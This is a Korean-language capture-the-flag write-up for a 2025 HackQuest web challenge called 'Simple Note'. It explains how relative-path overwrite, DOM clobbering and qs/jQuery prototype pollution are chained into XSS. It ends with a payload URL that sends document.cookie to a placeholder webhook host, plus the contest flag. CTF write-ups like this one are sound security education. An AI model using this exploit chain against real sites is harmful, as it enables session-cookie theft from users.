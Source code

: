 ```yaml
---
title: 2025 HackQuest [Simple Note] Write-Up
published: 2025-07-22
description: " "
tags: [CTF_Writeup]
category: CTF
draft: false
---
```

카이스트에서 주최한 HackQuest에 참가했고 웹 4문제 중 3문제를 풀었다.  
못 푼 한 문제가 아래에서 설명할 `Simple Note`보다 쉬운 문제였지만 헤메다 풀지 못했다. 

## Simple Note (Web)

```js
app.get('/track', (req, res) => {
  const id = req.query.id
  const p = posts.get(id)
  if (p && p.author !== req.session.user) p.views++
  res.end(p ? 'views:' + p.views : '')
})

app.get('/view', (req, res) => {
  const id = req.query.id
  const p = posts.get(id)
  if (!p) return res.status(404).send('not found')
  res.send(`<!doctype html><html><head><meta charset="utf-8">
    <script src="./config.js"></script>
    <script src="https://code.jquery.com/jquery-3.5.1.js"></script>
    <script src="https://cdn.jsdelivr.net/npm/qs@6.10.2/dist/qs.js"></script>
    </head><body id="main">
    <div id="content">${DOMPurify.sanitize(p.html)}</div>
    <div id="out"></div>
    </body>
    <script>
    let data = {}
    function merge(target, source) {
      for (const key in source) {
        const value = source[key];
        if (value && typeof value === 'object') {
          if (!target[key]) {
            target[key] = {};
          }
          merge(target[key], value);
        } else {
          target[key] = value;
        }
      }
      return target;
    }

    const params = Qs.parse(location.search.slice(1), { 
        depth: window.options.depth ? window.options.depth : 5,
        allowPrototypes: window.options.allowPrototypes ? true : false,
        parameterLimit: window.options.parameterLimit ? window.options.parameterLimit: 5
     })
    merge(data, params)
    $.get('/track?id=', data)
    </script>
    </html>`)
})

app.get('/config.js', (req, res) => {
  res.send(`
  window.options = {}
  window.options.depth = 20;
  window.options.allowPrototypes = false;
  window.options.parameterLimit = 20;  
  `)
})
```

작성한 노트를 그대로 보여주는 서비스이다.
html 삽입은 가능하지만 `DOMPurify.sanitize()` 되어 들어가기에 바로 XSS는 불가능하다.  

qs@6.10.2에 `CVE-2022-24999` Prototype pollution 취약점이 존재하고, `merge()` 함수에서도 pp가 일어난다.
그러나 `allowPrototypes`가 false이기 때문에 바로 Prototype pollution 하는 것 또한 불가능하다.

일단 처음으로 해야할 건 RPO다.
```html
<script src="./config.js"></script>
```
상대 경로로 config.js를 로드하고 있기에 `/view/?id=id` 처럼 뒤에 `/`를 붙이면 config.js의 로드를 막을 수 있다.

어차피 allowPrototypes는 계속 false이다. 여기서 RPO를 일으키는건 window.options가 initialize 되지 않게 하기 위해서다.

window.options가 할당되어 있지 않기에 Dom Clobbering으로 options를 덮어 allowPrototypes를 true로 설정할 수 있다.

```html
<form name="options">
     <input name="allowPrototypes" value="true">
</form>
```

이렇게 Dom Clobbering 페이로드를 작성한다

이제 `Prototype pollution`이 가능해졌다. XSS는 여전히 불가능해보일 수 있지만
여기서 찾은 방법이 `Jquery XSS by prototype pollution` 이다.

`$.get('/track?id=', data)`를 마지막에 사용하기에 XSS를 트리거 할 수 있다.

[레퍼런스](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md)를 약간 변형해서 xss를 성공시켰다

최종 페이로드는 이렇다
```
http://158.247.241.230:10897/view/?id=29f97926-66da-4d01-9a80-b69c6b49da52&[constructor][prototype][url]=data:text/javascript;charset=utf-8,document.location.href='https://webhook/test?q='+%2Bdocument.cookie;//&[constructor][prototype][dataType]=script&[constructor][prototype][crossDomain]=
```

`flag: hackquest2025{caf7088a3562e36cb29876b8dd45a3384f4b0d0533ecc2778234b845693eca03}`